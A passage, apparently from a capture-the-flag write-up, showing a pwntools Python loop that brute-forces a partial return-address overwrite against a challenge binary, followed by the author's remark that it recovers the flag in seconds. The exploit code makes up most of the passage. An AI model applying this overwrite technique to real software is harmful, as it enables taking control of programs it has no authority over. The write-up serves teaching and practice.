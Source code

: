 ```python
    
    # tell pwntools to read in a line and throw it away - this would be the first question asked 
    proc.recvline()
    
    # partial RIP overwrite - low bytes first (little endian)
    buf = 'B'*offset
    buf += '\x96\x07'
    
    # send the payload
    proc.sendline(buf)
    
    # recieve all output from the bin and wait for an EOF
    output =  proc.recvall()
    
    # close the process and restart the loop
    proc.close()
print output
~                
```

Using the above code on a 4GB, 2 Core VM I was able to bust out the flag within a few seconds on most attempts - although sometimes I would get unlucky and it would take a few minutes.


